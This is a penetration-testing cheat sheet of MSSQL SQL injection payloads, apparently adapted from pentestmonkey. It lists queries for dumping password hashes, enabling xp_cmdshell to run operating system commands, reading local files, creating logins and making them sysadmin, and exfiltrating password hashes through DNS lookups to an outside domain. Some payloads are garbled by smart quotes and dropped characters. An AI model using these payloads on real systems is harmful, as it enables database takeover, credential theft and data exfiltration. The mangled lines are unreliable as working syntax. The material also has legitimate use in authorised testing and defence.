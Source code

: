 SQLi - MSSQL

# SQLi - MSSQL

#### From:
- https://www.slideshare.net/SOURCEConference/everything-you-should-already-know-about-mssql-postexploitation
- http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

| Enumerate    | Command                 |
|--------------|-------------------------|
| Version|`SELECT @@version`|
|Comments|`SELECT 1 — comment`<br>`SELECT /*comment*/1`|
|Current User | `SELECT user_name();`<br>`SELECT system_user;<br>SELECT user;`<br>`SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID`|
|List Users|`SELECT name FROM master..syslogins`|
|List Password Hashes|`SELECT name, password FROM master..sysxlogins` — priv, mssql 2000;<br>`SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins` — priv, mssql 2000. Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.<br>`SELECT name, password_hash FROM master.sys.sql_logins` — priv, mssql 2005;<br>`SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins` — priv, mssql 2005|
| Password Cracker|MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen\|drescher can crack these.|
| List Privileges| – current privs on a particular object in 2005, 2008<br>`SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’);` — current database<br>`SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’);` — current server<br>`SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’);` –permissions on a table<br>`SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’);` –permissions on a user– current privs in 2005, 2008<br>`SELECT is_srvrolemember(‘sysadmin’);`<br>`SELECT is_srvrolemember(‘dbcreator’);`<br>`ELECT is_srvrolemember(‘bulkadmin’);`<br>`SELECT is_srvrolemember(‘diskadmin’);`<br>`SELECT is_srvrolemember(‘processadmin’);`<br>`SELECT is_srvrolemember(‘serveradmin’);`<br>`SELECT is_srvrolemember(‘setupadmin’);`<br>`SELECT is_srvrolemember(‘securityadmin’);` – who has a particular priv? 2005, 2008<br>`SELECT name FROM master..syslogins WHERE denylogin = 0;`<br>`SELECT name FROM master..syslogins WHERE hasaccess = 1;`<br>`SELECT name FROM master..syslogins WHERE isntname = 0;`<br>`SELECT name FROM master..syslogins WHERE isntgroup = 0;`<br>`SELECT name FROM master..syslogins WHERE sysadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE securityadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE serveradmin = 1;`<br>`SELECT name FROM master..syslogins WHERE setupadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE processadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE diskadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE dbcreator = 1;`<br>`SELECT name FROM master..syslogins WHERE bulkadmin = 1;`|
| List DBA Accounts| `SELECT is_srvrolemember(‘sysadmin’);` — is your account a sysadmin?  returns 1 for true, 0 for false, NULL for invalid role.  Also try ‘bulkadmin’, ‘systemadmin’ and other values from the documentation<br>`SELECT is_srvrolemember(‘sysadmin’, ‘sa’);` — is sa a sysadmin? return 1 for true, 0 for false, NULL for invalid role/username.<br>`SELECT name FROM master..syslogins WHERE sysadmin = ’1′` — tested on 2005 |
| Current Database| `SELECT DB_NAME()` |
| List Databases| `SELECT name FROM master..sysdatabases;`<br>`SELECT DB_NAME(N);` — for N = 0, 1, 2, …|
| List Columns | `SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’);` — for the current DB only<br>`SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’;` — list colum names and types for master..sometable | 
| List Tables | `SELECT name FROM master..sysobjects WHERE xtype = ‘U’;` — use xtype = ‘V’ for views<br>`SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;`<br>`SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’;` — list colum names and types for master..sometable | 
| Find Tables From Column Name | – NB: This example works only for the current database.  If you wan’t to search another db, you need to specify the db name (e.g. replace sysobject with mydb..sysobjects).<br>`SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = ‘U’ AND syscolumns.name LIKE ‘%PASSWORD%’` — this lists table, column for each column containing the word ‘password’ | 
| Select Nth Row | `SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC` — gets 9th row | 
| Select Nth Char | `SELECT substring(‘abcd’, 3, 1)` — returns c | 
| Bitwise AND | `SELECT 6 & 2` — returns 2<br>`SELECT 6 & 1` — returns 0 |
| ASCII Value -> Char | `SELECT char(0×41)` — returns A |
| Char -> ASCII Value | `SELECT ascii(‘A’)` – returns 65 |
| Casting | `SELECT CAST(’1′ as int);`<br>`SELECT CAST(1 as char)` |
| String Concatenation | `SELECT ‘A’ + ‘B’` – returns AB |
| If Statement | `IF (1=1) SELECT 1 ELSE SELECT 2` — returns 1 |
| Case Statement | `SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END` — returns 1 |
| Avoiding Quotes | `SELECT char(65)+char(66)` — returns AB |
| Time Delay | `WAITFOR DELAY ’0:0:5′` — pause for 5 seconds |
| Make DNS Requests | `declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’);` — nonpriv, works on 2000<br>`declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’);` — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary.<br>– Also check out theDNS tunnel feature of sqlninja |
| Command Execution | `EXEC xp_cmdshell ‘net user’;` — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:<br>`EXEC sp_configure ‘show advanced options’, 1;` — priv<br>`RECONFIGURE;` — priv<br>`EXEC sp_configure ‘xp_cmdshell’, 1;` — priv<br>`RECONFIGURE;` — priv |
| Local File Access | `CREATE TABLE mydata (line varchar(8000));`<br>`BULK INSERT mydata FROM ‘c:boot.ini’;`<br>`DROP TABLE mydata;` |
| Hostname, IP Address | `SELECT HOST_NAME()` |
| Create Users | `EXEC sp_addlogin ‘user’, ‘pass’;` — priv |
| Drop Users | `EXEC sp_droplogin ‘user’;` — priv | 
| Make User DBA | `EXEC master.dbo.sp_addsrvrolemember ‘user’, ‘sysadmin;` — priv |
|  Location of DB files | `EXEC sp_helpdb master;` –location of master.mdf<br>`EXEC sp_helpdb pubs;` –location of pubs.mdf |
| Default/System Databases | northwind<br>model<br>msdb<br>pubs — not on sql server 2005<br>tempdb|